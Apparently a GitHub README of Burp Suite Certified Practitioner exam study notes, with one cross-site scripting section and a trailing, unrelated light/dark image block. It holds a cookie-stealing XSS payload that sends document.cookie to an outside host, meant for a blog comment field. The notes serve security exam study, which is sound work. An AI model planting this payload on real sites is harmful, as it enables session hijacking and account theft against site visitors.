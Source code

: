 `#0d1117`
# Burp-Suite-Certified-Practitioner-Exam-Study
Burp Suite Certified Practitioner Exam Study Notes

## Cross Site Scripting

### Cookie Stealers

**Place payload in blog post comment section for victim to visit and send cookie.**
```html
<img src="1" onerror="window.location='http://exploit.net/cookie='+document.cookie">
```
<picture>
  <source media="(prefers-color-scheme: dark)" srcset="https://user-images.githubusercontent.com/25423296/163456776-7f95b81a-f1ed-45f7-b7ab-8fa810d529fa.png">
  <source media="(prefers-color-scheme: light)" srcset="https://user-images.githubusercontent.com/25423296/163456779-a8556205-d0a5-45e2-ac17-42d089e3c3f8.png">
  <img alt="Shows an illustrated sun in light mode and a moon with stars in dark mode." src="https://user-images.githubusercontent.com/25423296/163456779-a8556205-d0a5-45e2-ac17-42d089e3c3f8.png">
</picture>
